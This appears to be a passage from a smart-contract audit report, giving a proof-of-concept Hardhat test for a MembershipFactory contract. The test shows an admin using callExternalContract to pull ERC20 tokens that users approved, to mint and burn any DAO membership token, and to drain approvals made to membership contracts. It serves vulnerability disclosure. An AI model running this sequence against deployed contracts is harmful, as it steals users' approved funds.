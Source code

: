 **Proof of Concept:** The following test can be added to `describe("Call External Contract")` in `MembershipFactory.test.ts`:
```javascript
it("allows admin to have unilateral power", async function() {
  await testERC20.mint(addr1.address, ethers.utils.parseEther("2"));
  await testERC20.connect(addr1).approve(membershipFactory.address, ethers.utils.parseEther("1"));

  await currencyManager.addCurrency(testERC20.address);  // Assume addCurrency function exists in CurrencyManager
  const tx = await membershipFactory.createNewDAOMembership(DAOConfig, TierConfig);
  const receipt = await tx.wait();
  const event = receipt.events.find((event:any) => event.event === "MembershipDAONFTCreated");
  const nftAddress = event.args[1];
  const membershipERC1155 = await MembershipERC1155.attach(nftAddress);

  let ownerBalanceBefore = await testERC20.balanceOf(owner.address);

  // admin can steal approvals made to factory
  const transferData = testERC20.interface.encodeFunctionData("transferFrom", [addr1.address, owner.address, ethers.utils.parseEther("1")]);
  await membershipFactory.callExternalContract(testERC20.address, transferData);

  let ownerBalanceAfter = await testERC20.balanceOf(owner.address);
  expect(ownerBalanceAfter.sub(ownerBalanceBefore)).to.equal(ethers.utils.parseEther("1"));

  // admin can mint/burn any DAO membership tokens
  const mintData = membershipERC1155.interface.encodeFunctionData("mint", [owner.address, 1, 100]);
  await membershipFactory.callExternalContract(nftAddress, mintData);

  let ownerBalanceERC1155 = await membershipERC1155.balanceOf(owner.address, 1);
  expect(ownerBalanceERC1155).to.equal(100);

  const burnData = membershipERC1155.interface.encodeFunctionData("burn", [owner.address, 1, 50]);
  await membershipFactory.callExternalContract(nftAddress, burnData);

  ownerBalanceERC1155 = await membershipERC1155.balanceOf(owner.address, 1);
  expect(ownerBalanceERC1155).to.equal(50);

  // admin can abuse approvals to any membership tokens as well
  await testERC20.connect(addr1).approve(membershipERC1155.address, ethers.utils.parseEther("1"));

  ownerBalanceBefore = await testERC20.balanceOf(owner.address);

  const data = membershipERC1155.interface.encodeFunctionData("callExternalContract", [testERC20.address, transferData]);
  await membershipFactory.callExternalContract(membershipERC1155.address, data);

  ownerBalanceAfter = await testERC20.balanceOf(owner.address);
  expect(ownerBalanceAfter.sub(ownerBalanceBefore)).to.equal(ethers.utils.parseEther("1"));
});
```
